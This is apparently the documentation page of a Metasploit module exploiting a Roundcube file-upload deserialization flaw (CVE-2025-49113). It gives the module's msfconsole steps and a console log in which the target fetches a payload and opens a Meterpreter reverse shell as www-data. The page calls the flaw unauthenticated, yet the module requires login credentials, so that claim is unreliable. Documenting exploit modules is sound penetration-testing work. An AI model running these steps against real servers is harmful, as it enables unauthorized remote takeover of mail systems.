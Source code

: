 ## Vulnerable Application
  This module exploits an unauthenticated remote code execution vulnerability via a file upload
  endpoint. The vulnerability stems from improper validation of the uploaded filename, which is
  deserialized on the server side without sufficient sanitization. By embedding a PHP serialization
  gadget chain in the filename, an attacker can achieve remote code execution.

  This issue is tracked as CVE-2025-49113. Exploitation results in code execution as the web server
  user.

## Testing
To set up a test environment:
1. Set up an Roundcube.
2. Configure basic networking and confirm that the web service on port 80 is reachable.
3. Follow the verification steps below.

## Options
No custom options exist for this module.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/roundcube_unauth_rce_cve_2025_49113`
3. `set RHOSTS <TARGET_IP_ADDRESS>`
4. `set RPORT <TARGET_PORT>`
5. `set LHOST <LOCAL_IP>`
6. `set LPORT <LOCAL_PORT>`
7. `set USERNAME <USERNAME_TO_LOGIN_WITH>`
8. `set PASSWORD <PASSWORD_TO_LOGIN_WITH>`
9. `run`

## Scenarios
### Roundcube Linux Target
```
msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > show options

Module options (exploit/multi/http/roundcube_unauth_rce_cve_2025_49113):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to login with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      9999             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The URI of the Roundcube Application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       Email User to login with
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux

msf6 exploit(multi/http/roundcube_unauth_rce_cve_2025_49113) > exploit

[*] Started reverse TCP handler on 192.168.159.129:8082 
[*] Using URL: http://192.168.159.129:9696/
[*] Fetching CSRF token...
[*] Attempting login...
[+] Login successful.
[*] Uploading malicious payload...
[*] Client 192.168.181.148 (curl/7.74.0) requested /
[*] Sending payload to 192.168.181.148 (curl/7.74.0)
[*] Sending stage (3045380 bytes) to 192.168.181.148
[*] Meterpreter session 1 opened (192.168.159.129:8082 -> 192.168.181.148:56528) at 2025-06-06 21:05:59 -0400
[+] Exploit attempt complete. Check for session.
[*] Server stopped.

meterpreter > getuid
Server username: www-data

meterpreter > sysinfo
Computer     : dante.local
OS           : Debian 11.5 (Linux 6.11.2-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux

```
